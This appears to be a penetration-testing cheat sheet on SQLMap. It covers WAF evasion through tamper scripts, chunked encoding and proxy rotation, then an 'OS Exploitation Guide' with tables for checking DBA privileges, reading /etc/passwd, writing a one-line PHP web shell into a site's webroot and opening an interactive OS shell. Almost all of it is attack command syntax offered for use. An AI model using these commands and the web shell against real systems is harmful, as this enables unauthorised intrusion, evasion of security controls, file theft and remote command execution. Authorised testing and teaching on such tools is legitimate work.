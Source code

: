 1. Start with basic techniques:
    - Use `--random-agent` by default
    - Enable `--tamper=between,randomcase` for initial WAF bypass
2. Escalate methodically:
    - Add chunked encoding if needed
    - Layer additional tamper scripts
    - Consider proxy rotation for persistent blocks
3. Monitor effectiveness:
    - Use verbose mode to track success
    - Watch for WAF detection messages
    - Adjust strategy based on response patterns

# SQLMap OS Exploitation Guide: A Comprehensive Approach

## Core Components and Prerequisites

|Component|Description|Verification Command|Success Indicator|
|---|---|---|---|
|DBA Privileges|Required for most operations|`--is-dba`|`current user is DBA: True`|
|File Privileges|Needed for file operations|Automatic check|Part of DBA verification|
|Webroot Access|Required for web shells|Directory listing|Write permission in web directory|

## File Operations Capabilities

### Reading Files

|Operation|Command Syntax|Example Usage|Notes|
|---|---|---|---|
|Basic File Read|`--file-read [path]`|`--file-read "/etc/passwd"`|Requires FILE privilege|
|Output Location|Automatic|`~/.sqlmap/output/[domain]/files/`|Files saved locally|
|Alternative Methods|`--no-cast`, `--hex`|Used for troubleshooting|Helps with encoding issues|

### Writing Files

|Operation|Command Options|Example|Requirements|
|---|---|---|---|
|Basic Write|`--file-write`, `--file-dest`|Write "shell.php" to webroot|Write permissions needed|
|Web Shell Creation|Write PHP file|`<?php system($_GET["cmd"]); ?>`|Web directory access needed|
|Configuration Check|MySQL `secure-file-priv`|Server configuration|Must be disabled/configured|

## Command Execution Methods

|Method|Command Option|Advantages|Limitations|
|---|---|---|---|
|OS Shell|`--os-shell`|Interactive shell|May require specific technique|
|Technique Selection|`--technique=X`|Better success rate|E.g., `--technique=E` for error-based|
|Manual Shell|Custom PHP shell|More reliable|Requires file write access|
